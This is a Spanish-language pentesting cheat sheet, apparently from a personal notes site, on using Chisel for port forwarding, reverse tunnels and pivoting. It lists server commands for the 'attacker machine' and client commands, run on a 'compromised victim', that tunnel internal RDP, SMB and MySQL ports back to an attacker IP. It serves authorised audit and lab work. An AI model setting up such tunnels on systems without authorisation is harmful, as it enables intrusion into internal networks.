

repository: JAVIKRD/bitacora · page: herramientas/chisel-pivoting/index.html · generator: mkdocs

# Chisel & Pivoting (Linux / Windows)

Guía rápida de uso de **Chisel** para reenvío de puertos (Port Forwarding), túneles reversos y pivoting mediante proxy SOCKS5.

---

## 1. Servidor Chisel (Máquina Atacante)

El servidor se levanta en la máquina del auditor para recibir las conexiones de los clientes internos.

```bash
# Modo servidor básico en puerto específico
chisel server --reverse --port 8081
./chisel server --reverse -p 4444

# Servidor con autenticación por usuario y contraseña
chisel server --reverse --port 8081 --auth "auditor:SuperSecretPass123"

# Servidor con compresión habilitada (reduce consumo de ancho de banda)
chisel server --reverse --port 8081 --compress

# Modo verbose (detalles de conexión en tiempo real)
chisel server --reverse --port 8081 -v
```

---

## 2. Cliente Chisel (Máquina Víctima)

El cliente se ejecuta en la máquina comprometida para redirigir servicios locales hacia la máquina del atacante.

```powershell
# Sintaxis general:
# client <IP_ATACANTE>:<PUERTO_SERVER> R:<PUERTO_LOCAL_ATACANTE>:127.0.0.1:<PUERTO_VICTIMA>

# En Windows (ej. exponer puerto 8888 o RDP 3389)
.\chisel.exe client 10.10.14.X:8081 R:8888:127.0.0.1:8888
.\chisel.exe client 10.10.14.X:4444 R:3389:127.0.0.1:3389

# En Linux
./chisel client 10.10.14.X:8081 R:8888:127.0.0.1:8888
```

---

## 3. Reenvío de Múltiples Puertos en un Solo Comando

Se pueden encadenar múltiples directivas `R:` para exponer varios servicios simultáneamente (por ejemplo: SMB, MySQL y WinRM).

```powershell
.\chisel.exe client 10.10.14.X:8081 R:8888:127.0.0.1:8888 R:3306:127.0.0.1:3306 R:445:127.0.0.1:445
```

---
